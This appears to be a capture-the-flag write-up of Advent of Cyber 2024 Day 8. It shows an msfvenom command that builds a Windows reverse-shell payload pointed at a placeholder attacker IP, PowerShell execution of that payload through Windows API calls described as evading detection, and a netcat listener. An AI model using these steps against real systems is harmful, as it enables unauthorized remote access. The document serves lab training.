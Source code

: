 
# Advent of Cyber 2024 - Day 8

## Challenge Overview
Create and execute shellcode for a reverse shell using PowerShell, leveraging Windows API functions to gain access and capture the flag.

---

## Steps

### Generating Shellcode

We used `msfvenom` to generate shellcode for a reverse shell targeting a Windows system. The shellcode connects back to the attacker's machine when executed.

**Command Used**:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=4444 -f powershell
```

This generates a PowerShell-formatted payload for a reverse shell.

---

### Preparing and Executing the Shellcode

The generated shellcode was embedded in a PowerShell script, which interacts with the Windows API to execute the payload. Key functions include:
- `VirtualAlloc` to allocate memory for the shellcode.
- `CreateThread` to execute the shellcode.
- `WaitForSingleObject` to pause until execution completes.
 
![PowerShell Code Pasted](images/CodePastedWindowsPowerShell.png)

---

### Establishing a Connection

To capture the reverse shell, we set up a netcat listener on the attack machine:
```bash
nc -nvlp 4444
```

Once the PowerShell script was executed on the target machine, the connection was established successfully.

---

### Retrieving the Flag

The reverse shell allowed us to navigate the compromised system. Using the shell, we located the flag at:
```cmd
C:\Users\glitch\Desktop\flag.txt
```

**Command Used**:
```cmd
type C:\Users\glitch\Desktop\flag.txt
```

![Netcat Listener and Flag](images/GenerateShellCodeNetCat444andFlagFound.png)

---

## Key Findings
1. **Generating Shellcode**: We used `msfvenom` to craft a reverse shell payload tailored for Windows systems.
2. **Executing Shellcode via PowerShell**: Leveraging Windows API through PowerShell allowed the shellcode to execute successfully, bypassing traditional disk-based detections.
3. **Obtaining a Reverse Shell**: A netcat listener captured the reverse shell, granting remote access to the target system.
4. **Flag Retrieval**: Using the reverse shell, we navigated the target system to locate and retrieve the flag.

---

## Conclusion

This task emphasized the importance of understanding shellcode execution and defensive techniques. By executing shellcode through PowerShell, we demonstrated how attackers can leverage built-in tools to evade detection and gain unauthorized access. It is critical to monitor network activity and implement robust defenses against such techniques.

---

